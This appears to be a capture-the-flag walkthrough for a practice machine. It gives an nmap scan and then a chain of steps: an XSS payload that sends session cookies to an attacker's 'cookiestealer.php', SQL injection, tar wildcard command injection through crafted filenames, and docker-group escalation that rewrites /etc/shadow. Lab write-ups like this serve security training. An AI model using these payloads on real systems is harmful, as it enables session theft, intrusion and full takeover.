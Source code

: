 nmap -sV -p- 10.10.149.193 

output :

22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    nginx 1.19.2
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)

1-sign up in website
2-login
3-make New listing
4-title=<script>document.location='http://your ip/cookiestealer.php?c='+document.cookie;</script>
5-open webserver
6-steal cookie 
7-login with admin cookie
8-/target/admin?user=1 (SQL injection)
9- exploit SQLi



----------------------
table:
messages
in column:
message_content
user:jake
with password in column message_content
-connect with ssh 
-sudo -l
[+]output[+]
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
-----    
exploit:https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
-now we in user 
-michael
run linpeas 
UTC 2020oups: uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
  docker image run -it --volume /etc/shadow:/tmp/shadow alpine:latest sh  
  echo "root:$(mkpasswd -m sha-512 foo foobarbaz):12345:0:::::" > /tmp/shadow
  link exploit :https://blog.martiert.com/the-docker-group-and-privilege-escalation/
  now su root with your password
  we have root:)
  flags in:
    -admin panel
    -/home/jake/user.txt
    /root/root.txt








